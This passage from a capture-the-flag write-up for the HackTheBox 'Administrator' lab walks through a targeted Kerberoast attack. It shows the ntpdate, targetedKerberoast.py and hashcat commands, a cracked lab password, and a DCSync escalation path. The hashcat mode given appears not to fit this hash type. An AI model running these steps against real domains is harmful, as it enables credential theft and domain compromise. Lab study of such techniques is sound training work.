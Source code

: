 [Github Targeted Kerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

Before we proceed, if we do not update our clocks to match those of the Domain Controller, we will encounter a clock skew error.

```bash
sudo ntpdate administrator.htb
```

We should now be able to run the following command.

```bash
python3 targetedKerberoast.py --dc-ip 10.129.129.13 -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```
![](/assets/images/htb/administrator/23ethancrack.png)

Let's place the hash into its own file and use hashcat to crack it!

```bash
hashcat -m 5200 ethan.hash /opt/seclists/Passwords/Leaked-Databases/rockyou.txt -o ethan.pass
```

We were able to crack the hash and found that Ethan's password is `limpbizkit`

Back to Bloodhound, we can see that Ethan has `GetChangesAll` (DCSYNC) abilities for administrators.  

![](/assets/images/htb/administrator/24ethantoadmin.png)

